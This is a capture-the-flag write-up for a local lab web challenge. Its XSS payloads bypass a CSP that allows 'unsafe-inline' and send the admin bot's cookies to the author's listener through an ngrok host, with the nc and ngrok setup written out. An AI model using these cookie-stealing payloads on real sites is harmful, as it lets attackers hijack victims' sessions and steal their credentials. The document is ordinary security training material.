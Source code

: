 # Web BlogPost

![Blog Post Challenge](img/Challenge.PNG)

## Summary

Blogpost is a easy web challenge that one of the challenges that took most of my time in the CTF. Finding the foothold was an interesting process but this challenge has reminded me not to create a tunnel vision when it comes to hacking and ensuring that I check all files to have a good understanding what the challenge is. (I did not realize about the bot.js and basically had troubles stealing the cookie itself)

## Table of Contents
1. [Setting up environment](https://github.com/notsuspiciousindividual/Stack_The_Flag_CTF_22/tree/main/web_blogpost_1#setting-up-the-environment)
2. [Enumeration](https://github.com/notsuspiciousindividual/Stack_The_Flag_CTF_22/tree/main/web_blogpost_1#setting-up-the-environment)
3. [Foothold](https://github.com/notsuspiciousindividual/Stack_The_Flag_CTF_22/tree/main/web_blogpost_1#setting-up-the-environment)
4. [Exploitation](https://github.com/notsuspiciousindividual/Stack_The_Flag_CTF_22/tree/main/web_blogpost_1#setting-up-the-environment)
	1.[CSP](https://github.com/notsuspiciousindividual/Stack_The_Flag_CTF_22/tree/main/web_blogpost_1#what-is-csp-and-why-is-it-a-pain)
	2.[Using NGROK](https://github.com/notsuspiciousindividual/Stack_The_Flag_CTF_22/tree/main/web_blogpost_1#using-ngrok)

## Setting up the environment

![When unzipped, there should be the docker environments to run](img/settingupchallenge.PNG)

The challenge developers were kind enough to create the environment for individuals to run on their local machine. To create the environment itself, you should have docker installed in your machine. Just a little google can help you (depending on your machine) but here was how I installed it; [Link](https://www.kali.org/docs/containers/installing-docker-on-kali/)

## Enumeration

Playing around with the website and looking at the sourcecode, we have a rough understand of what the website has and the general flow for normal users; 

```
Goes to Homepage
Login
	If no user in website
		make user
	Go to Blog, server takes content from blog
	make own post etc
```

Going through the sourcecodes itself, we also understand that there'll be a bot that actively crawls through the blogpost with the required cookie we have to steal in bot.js

```javascript
export const viewPosts = async () => {
    try {
		const browser = await puppeteer.launch(browser_options);
		let context = await browser.createIncognitoBrowserContext();
		let page = await context.newPage();

		let token = await sign({ username: 'admin' });
		await page.setCookie({
			name: "session",
			'value': token,
			domain: "127.0.0.1",
		});
		await page.setCookie({
			name: "flag",
			'value': "REDACTED",
			domain: "127.0.0.1",
		});
		await page.goto('http://127.0.0.1:1337/blog', {
			waitUntil: 'networkidle2',
			timeout: 8000
		});
		await browser.close();
    } catch(e) {
        console.log(e);
    }
};
````

## Getting the foothold

![Form has no sanitisation](img/formsjsnosanitisation.PNG)


Looking through the sourcecode, there is no form of sanitization when it comes to posting. With that in mind, let's try it with a simple XSS. If it works, there'll be our foothole for this challenge.

```javascript
<script>console.log("test")</script>
```

![XSS FootHold](img/XSSFootHold.PNG)

![XSS Success](img/XSSSuccess.PNG)

And it does work! Now with our foothold, what can we do with it?

## Exploitation
During our enumeration, we understand that'll be a bot the crawls through the blog site itself. Hence our objective is to use XSS to steal the "cookie" of the admin which will hold our flag. I made a simple XSS payload that'll force the website to send their user cookie to my server as shown below;

- Payload
```javascript
<script>
document.write('<img src="http://127.0.0.1:8000/?'+document.cookie+'"/>');
</script> 
//Note that the ip address should be your ip address that you want to take the cookies
```
[^1]


- On Our machine (to receive the cookies)
```bash
python -m SimpleHTTPServer
```

However, we encountered the next obstacle in the challenge. The challenge is equipped with content security policy (CSP) with doesn't allow us to steal the cookie as shown below.

![CSP Shenanigans](img/CSPBlockage.PNG)

### What is CSP? ~~and why is it a pain~~

> Content Security Policy ([CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)) is an added layer of security that helps to detect and mitigate certain types of attacks, including Cross-Site Scripting ([XSS](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting)) and data injection attacks. These attacks are used for everything from data theft, to site defacement, to malware distribution. [^2]

It is a good mitigation practise but with every mitigation, there'll be ways where developers configure such mitigations wrongly. We can verify their policy (found in /src/app/index.js) using [CSP Evaluator](https://csp-evaluator.withgoogle.com/)  

![CSP Bad Configuration](img/CSPMisconfiguration.PNG)

Hence with the mindset of "hey they probably misconfigured something", we can see that they allowed 'unsafe-inline' which can be our proper foothold for this obstacle. Implementing it in CSP is effectively disabling the important part of CSP. You are allowing javascript to run in the XSS. [^3] Hence with that in mind, let us find a payload to bypass it.

```javascript
"/><script>console.log("bypass works");</script>
```
[^4]


![CSP Bypass Works](img/bypasstestWorks.PNG)

It does work, now lets steal the bot's cookie

### Using NGROK
One of the problems which I faced was getting the cookie itself. For some reason, I was only receiving my cookie rather than the bot's cookie. After thinkering around and accidentally solving Blogpost 2 (woops), I learn about [ngrok](https://ngrok.com/). The idea is being able to push localhost apps to the internet with a hostname easily. In this case, I'll be using it to receive the cookie instantly. Thanks John Hammond for the idea as well. [^5]

Setting up ngrok, which will give us our forward hostname
```
ngrok http 9000
```

![Ngork Hostname Output](img/ngrokStuff.PNG)

Setting up listening on localhost
```
nc -nlvp 9000
```
Payload for our shenanigans
```
"/><script>document.location='https://16ba-118-189-213-163.ap.ngrok.io/?c='+document.cookie;</script>
```

This will give us the cookie which is the aim of the challenge! 

![Flag Here!](img/XSSCSPBypassFlag.PNG)



[^1]:[Simple XSS Cookie Stealer](https://infinitelogins.com/2020/10/13/using-cross-site-scripting-xss-to-steal-cookies/)
[^2]:[What is CSP?](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
[^3]:[unsafe-inline is dumb](https://csper.io/blog/no-more-unsafe-inline)
[^4]:[unsafe-inline bypass](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass#unsafe-inline)
[^5]:[John's Video on CSP](https://www.youtube.com/watch?v=uU_tvQPCBUo)